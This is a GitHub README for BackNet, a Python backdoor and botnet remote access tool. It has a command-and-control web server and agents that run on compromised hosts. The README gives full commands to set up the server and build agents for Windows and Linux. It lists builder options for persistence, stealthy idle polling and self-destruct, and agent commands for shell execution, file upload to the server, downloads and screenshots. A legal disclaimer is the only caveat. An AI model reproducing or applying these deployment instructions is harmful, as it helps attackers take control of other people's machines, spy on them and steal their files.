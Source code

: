 # BackNet
Backdoor+Botnet


![Python](https://alibahaari.github.io/Badge/Python.png)  ![HTML](https://alibahaari.github.io/Badge/HTML.png)   ![JS](https://alibahaari.github.io/Badge/CSS.png)    ![CSS](https://alibahaari.github.io/Badge/JavaScript.png)

![Git Actions](https://github.com/kaiiyer/backnet/workflows/Git%20Actions/badge.svg)
[![CircleCI](https://circleci.com/gh/kaiiyer/backnet/tree/master.svg?style=svg)](https://circleci.com/gh/kaiiyer/backnet/tree/master)
<a href="https://github.com/kaiiyer/backnet/issues"><img alt="GitHub issues" src="https://img.shields.io/github/issues/kaiiyer/backnet"></a>
<a href="https://github.com/kaiiyer/backnet/network"><img alt="GitHub forks" src="https://img.shields.io/github/forks/kaiiyer/backnet"></a>
<a href="https://github.com/kaiiyer/backnet/blob/master/LICENSE"><img alt="GitHub license" src="https://img.shields.io/github/license/kaiiyer/backnet"></a>
<a href="https://github.com/kaiiyer/backnet/graphs/contributors" alt="Contributors">
<img src="https://img.shields.io/github/contributors/kaiiyer/backnet" /></a>
```
 ____             _    _   _      _   
| __ )  __ _  ___| | _| \ | | ___| |_ 
|  _ \ / _` |/ __| |/ /  \| |/ _ \ __|
| |_) | (_| | (__|   <| |\  |  __/ |_ 
|____/ \__,_|\___|_|\_\_| \_|\___|\__|

```

BackNet is a Python Remote Access Tool.

__Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

BackNet is made of two main programs:

- A Command aad Control server, which is a Web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent can be compiled to native executables using **pyinstaller**.

## Setup

Install the Python requirements:

```
pip install -r requirements.txt
```

Initialize the database:

```
cd server
./ares.py initdb
```

In order to compile Windows agents on Linux, setup wine (optional):

```
./wine_setup.sh
```

## Server

Run with the builtin (debug) server:

```
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Or run using gunicorn:

```
gunicorn ares:app -b 0.0.0.0:8080 --threads 20
```

The server should now be accessible on http://localhost:8080

## Agent

Run the Python agent (update config.py to suit your needs):

```
cd agent
./agent.py
```

Build a new agent to a standalone binary:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
``` 

To see a list of supported options, run ./builder.py -h

```
./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```

### Supported agent commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

screenshot
Takes a screenshot.

python <command|file>
Runs a Python command or local file.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.

help
This help.
```
